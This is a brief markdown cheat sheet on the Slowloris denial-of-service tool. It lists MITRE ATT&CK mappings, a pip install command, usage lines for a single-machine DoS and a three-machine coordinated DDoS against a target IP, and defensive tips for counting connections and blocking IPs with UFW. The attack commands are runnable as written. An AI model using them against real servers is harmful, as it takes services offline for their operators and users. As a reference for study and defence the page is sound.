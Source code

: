 # Slowloris

**Keywords:** DDoS

## References

- [MITRE ATT&CK](https://attack.mitre.org/)

## Kill Chain

- Recon
- Exploit
- Escalate
- Lateral Movement
- Evade
- Action

## MITRE ATT&CK

### Tactics

- Reconnaissance
- Resource Development
- Initial Access
- Execution
- Persistence
- Privilege Escalation
- Defense Evasion
- Credential Access
- Discovery
- Lateral Movement
- Collection
- Command & Control
- Exfiltration
- Impact
  - T1498: Network Denial of Service
  - T1499: Endpoint Denial of Service

## CLI

### Installation

#### PIP

```sh
pip install Slowloris
```

### Usage

```sh
# DoS Attack
slowloris [ip-address] -s 900

# DDos Attack
slowloris [ip-address] -s 300 --sleeptime 3 # Machine 1
slowloris [ip-address] -s 400 --sleeptime 4 # Machine 2
slowloris [ip-address] -s 500 --sleeptime 5 # Machine 3
```

## Tips

### Listen Treads

```sh
netstat -ant | grep -E ':80|:443' | wc -l
```

### Prevent Attack with Uncomplicated Firewall (UFW)

```sh
#
sudo ufw enable

#
sudo ufw insert 1 deny from [ip-address]

#
sudo ufw status numbered

#
sudo ufw delete [number]
```

